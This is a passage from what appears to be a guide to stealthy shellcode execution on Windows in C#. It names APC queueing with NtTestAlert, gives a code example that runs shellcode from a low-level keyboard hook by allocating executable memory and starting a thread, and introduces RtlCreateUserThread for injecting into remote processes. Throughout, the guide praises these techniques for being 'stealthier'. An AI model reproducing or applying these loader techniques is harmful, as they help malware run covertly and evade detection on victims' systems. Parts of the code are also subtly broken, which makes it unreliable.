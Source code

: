 ```csharp
    NtTestAlert();
}
```
- **`QueueUserAPC`**: Queues an APC to be executed when the thread enters an alertable state.
- **`NtTestAlert`**: Forces the thread to check its APC queue and execute the queued APC.

### 3. **Use `SetWindowsHookEx`**
This technique hooks into a legitimate process, such as a window message event, and then injects your shellcode, executing it when a certain event occurs (like a key press). It works best when targeting processes with a message loop, like GUI applications.

#### Code Example:
```csharp
[DllImport("user32.dll", SetLastError = true)]
private static extern IntPtr SetWindowsHookEx(int idHook, HookProc lpfn, IntPtr hMod, uint dwThreadId);

[DllImport("user32.dll", SetLastError = true)]
private static extern bool UnhookWindowsHookEx(IntPtr hhk);

[DllImport("kernel32.dll", SetLastError = true)]
private static extern IntPtr GetModuleHandle(string lpModuleName);

private delegate IntPtr HookProc(int nCode, IntPtr wParam, IntPtr lParam);

// Allocate memory and execute shellcode via Windows hook
private IntPtr HookCallback(int nCode, IntPtr wParam, IntPtr lParam)
{
    if (nCode >= 0)
    {
        IntPtr baseAddress = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);
        Marshal.Copy(shellcode, 0, baseAddress, shellcode.Length);
        CreateThread(IntPtr.Zero, 0, baseAddress, IntPtr.Zero, 0, IntPtr.Zero);
    }
    return CallNextHookEx(IntPtr.Zero, nCode, wParam, lParam);
}

private void ExecuteShellcode(byte[] shellcode)
{
    IntPtr hook = SetWindowsHookEx(13, HookCallback, GetModuleHandle(null), 0); // WH_KEYBOARD_LL hook
    UnhookWindowsHookEx(hook);
}
```
This method adds your shellcode execution into the normal processing flow of the hooked application, making it stealthier.

### 4. **Use `RtlCreateUserThread`**
This system call can be used to create a thread in a remote process, which is another stealthier alternative.
